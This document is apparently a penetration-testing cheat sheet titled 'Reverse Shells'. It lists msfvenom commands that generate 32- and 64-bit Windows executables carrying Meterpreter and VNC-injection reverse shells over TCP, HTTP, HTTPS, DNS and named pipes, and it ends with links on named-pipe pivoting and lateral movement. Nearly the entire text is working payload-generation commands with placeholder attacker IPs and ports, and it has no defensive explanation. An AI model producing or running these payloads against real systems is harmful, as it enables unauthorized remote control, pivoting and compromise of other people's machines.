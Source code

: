 # Reverse Shells

## Interactive Shells

1. x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_https handlersslcert=<file.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_tcp_dns lhost=<dns_URL> lport=<PORT> -f exe met-x86.exe`

- Specify the compromised windows host with `pipehost`

`$ msfvenom -p windows/meterpreter/reverse_named_pipe pipehost=<compromised_computer_IP> pipename=<PIPENAME> -f exe -o met-x86.exe`

2. x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x64.exe`

`$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x64.exe`

`$ msfvenom -p windows/x64/meterpreter/reverse_https handlersslcert=<file.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met_x86_64.exe`

- Specify the compromised windows host with `pipehost`

```
$ msfvenom -p windows/x64/meterpreter/reverse_named_pipe pipehost=<compromised_computer_IP> pipename=<PIPENAME> -f exe -o met-x64.exe
```

## VNC

1. x86 (32-bit) Payloads

`$ msfvenom -p windows/vncinject/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o vnc-x86.exe`

`$ msfvenom -p windows/vncinject/reverse_http lhost=<IP> lport=<PORT> -f exe -o vnc-x86.exe`

2. x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/vncinject/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe`

`$ msfvenom -p windows/x64/vncinject/reverse_http lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe`

`$ msfvenom -p windows/x64/vncinject/reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe`

---
## References

- [Metasploit Documentation: Pivoting in Metasploit](https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html)

- [BorderGate: Lateral Movement With Named Pipes](https://www.bordergate.co.uk/lateral-movement-with-named-pipes/)

- [Nagarro Security: SMB NamedPipe Pivoting Meterpreter](https://nagarrosecurity.com/blog/smb-named-pipe-pivoting-meterpreter)

- [Peter Gombos: SMB Named Pipe Pivoting in Meterpreter](https://medium.com/@petergombos/smb-named-pipe-pivoting-in-meterpreter-462580fd41c5)